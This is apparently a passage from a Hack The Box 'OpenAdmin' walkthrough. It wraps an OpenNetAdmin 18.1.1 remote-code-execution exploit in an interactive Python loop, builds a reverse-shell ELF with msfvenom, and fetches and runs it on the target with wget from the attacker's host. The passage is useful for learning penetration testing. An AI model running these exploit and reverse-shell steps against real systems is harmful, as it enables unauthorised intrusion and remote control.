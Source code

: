 

I then used the exploit function of the script, which creates a "shell" via the python script. This just reruns the exploit function with whatever command is input.

```python
cmd = ''
while(True):
	cmd = input('sh$ ').lower()
	if (cmd == 'exit'):
		exit(0)
	print(exploit(target, cmd))
```

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$python3 rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```


I created an elf file with msfvenom.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.35 LPORT=443 -f elf -o test
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test
```

I then uploaded the elf file, made it executable and ran it. This gave me a reverse shell on my listener.


```sh
sh$ wget http://10.10.14.35/test
--2022-02-10 23:24:27--  http://10.10.14.35/test
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'test'

     0K                                                       100% 15.9M=0s

2022-02-10 23:24:27 (15.9 MB/s) - 'test' saved [194/194]

sh$ chmod +x test

sh$ ./test
```

